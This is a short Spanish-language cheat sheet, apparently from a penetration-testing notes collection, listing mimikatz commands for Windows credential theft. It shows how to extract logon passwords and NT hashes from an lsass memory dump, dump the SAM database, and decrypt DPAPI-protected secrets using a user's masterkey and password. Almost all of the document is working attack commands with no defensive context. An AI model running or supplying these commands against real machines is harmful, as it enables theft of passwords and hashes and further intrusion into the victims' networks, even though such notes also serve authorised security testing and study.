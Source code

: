 ## lsass.DMP

En caso de que tengamos un archivo `lsass.dmp` podemos dumpear los `logonPasswords` y ver los hashes NT:

```shell
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords
```

## Dumpear SAM

```
lsadump::sam
```

## DPAPI secrets

Para esto necesitamos la credencial y la masterkey, se encuentran en `C:\Users\<USUARIO>\AppData\Roaming\Microsoft\Credentials` y en `C:\Users\<USUARIO>\AppData\Roaming\Microsoft\Protect`, respectivamente. Con mimikatz podemos dumpearlas

```
dpapi::masterkey /in:maskterkey /sid:SID /password:contraseña
```

Al hacer esto mimikatz guarda la masterkey y la credencial dpapi en cache

```
dpapi::cache
```

Luego le pasamos la credencial y vemos los secretos de dpapi

```
dpapi::cred /in:credencial
```

